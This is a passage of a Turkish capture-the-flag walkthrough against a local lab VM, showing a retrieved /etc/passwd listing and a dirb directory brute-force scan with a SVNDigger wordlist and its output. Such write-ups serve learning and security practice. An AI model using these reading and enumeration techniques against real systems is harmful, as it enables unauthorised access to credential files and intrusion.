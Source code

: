 ```text
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
frank:x:1000:1000:frank,,,:/home/frank:/bin/bash
sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:103:111:ftp daemon,,,:/srv/ftp:/bin/false

>>>
```

Ve işte passwd dosyası elimizde. Aynı yöntem ile başka dosyalarıda çekebiliriz.

## Daha Derinlemesine Dirb

Açıkçası bu adımda internetten biraz yardım (kopya) almam gerekti. Çünkü uzun bir çabadan sonra ne yapmam gerektiğini çözememiştim. Aslında cevap oldukça basitmiş. Şu şekilde:

```text
root@kali:~# dirb http://192.168.56.102/ /root/Downloads/SVNDigger/all.txt

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Thu Nov 29 12:50:39 2018
URL_BASE: http://192.168.56.102/
WORDLIST_FILES: /root/Downloads/SVNDigger/all.txt

-----------------

GENERATED WORDS: 43104

---- Scanning URL: http://192.168.56.102/ ----
. . . . .
. . . . .
. . . . .
+ http://192.168.56.102/index.html.bak (CODE:200|SIZE:334)
. . . . .
. . . . .
. . . . .
+ http://192.168.56.102/%%146^%%146134639^function.tpl.php (CODE:400|SIZE:306)
---- Entering directory: http://192.168.56.102/img/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.56.102/vendor/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

-----------------
END_TIME: Thu Nov 29 12:51:29 2018
DOWNLOADED: 43104 - FOUND: 68
```
